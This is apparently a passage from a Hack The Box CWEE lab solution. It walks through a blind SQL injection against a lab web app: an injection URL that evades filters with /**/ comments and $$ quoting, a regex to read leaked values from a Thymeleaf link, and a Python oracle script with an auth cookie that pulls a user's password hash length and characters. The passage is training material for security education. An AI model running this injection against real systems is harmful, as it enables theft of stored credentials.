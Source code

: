 ![[HTB Solutions/CWEE/z. images/cff48c865d771975cacfef35fee37193_MD5.jpg]]

Students can test the endpoint by injecting a payload that will assign `id` the value of the first character of the password of the user with the email `Amy.Mcwilliams@proton.me`, getting back 36 in the `anchor` tag populated by `Thymeleaf`, which is the ASCII encoding of `$`:

```
http://STMIP:8080/find-user?u=%27/**/AND/**/id=(SELECT/**/ASCII(SUBSTRING(password,1,1))/**/FROM/**/users/**/WHERE/**/email=$$Amy.Mcwilliams@proton.me$$)--
```

![[HTB Solutions/CWEE/z. images/c67f0e21765d3ddd79c10916dafd62e8_MD5.jpg]]

Now that students have identified the attack vector, they need to automate the exfiltration of data from the database using it. To get the value assigned by `Thymeleaf` to `href="/profile/VALUE"`, students can either use an HTML parser such as [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/bs4/doc/) to parse out the value of the `href` attribute within the `anchor` tag, or, a simpler approach is using `matching groups` in `regex`. Since the pattern is uniform every time as `Thymeleaf` is used, students can attain the value assigned to `id` by the injected query via the `regular expression` adapted in Python:

Code: python

```python
regex = r"(<a style=\"text-decoration:none; color: white\" href=\"/profile/)(.*?)(\">)"
match = re.search(regex, response.text) 
    if match:
        return match.group(2)
```

![[HTB Solutions/CWEE/z. images/d09af8bb112376fd10c3443feb18bb2e_MD5.jpg]]

Additionally, in the PoC script, students need to include the `auth` `Cookie` header as it is required, not forgetting to also replace whitespaces with `/**/` and single quotes with `$$`:

![[HTB Solutions/CWEE/z. images/1d4010f244a206be1a9158546382422a_MD5.jpg]]

First, students need to inject a query to fetch the length of the password's hash of the user with the email `Amy.McWilliams@proton.me`:

Code: sql

```sql
SELECT LENGTH(password) FROM users WHERE email = 'Amy.Mcwilliams@proton.me'
```

Code: python

```python
import requests
import re

def oracle(query):
    headers = {"Cookie": "auth=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJCbHVlU2hhcmsiLCJpYXQiOjE2Nzk1MTgwODAsImV4cCI6MTY3OTUyNjcyMH0.TuiqKiE-w14RJUY1bxVrPHb7kLdpM5_HpS9cnDWZS8OfuEA4FMBE4AMTk7WJJw_o9z4DwExIbNeA_oIXSnmi5g"}
    whiteSpace = "/**/"
    singleQuote = "$$"
    baseURL = "http://STMIP:8080/find-user?u="
    SQLiPayload = (f''''{whiteSpace}AND{whiteSpace}id=({query.replace("'", singleQuote).replace(" ", whiteSpace)})--''')
    response = requests.get(baseURL + SQLiPayload, headers = headers)
    regex = r"(<a style=\"text-decoration:none; color: white\" href=\"/profile/)(.*?)(\">)"
    match = re.search(regex, response.text) 
    if match:
        return match.group(2)

print(oracle(f"SELECT LENGTH(password) FROM users WHERE email = 'Amy.Mcwilliams@proton.me'"))
```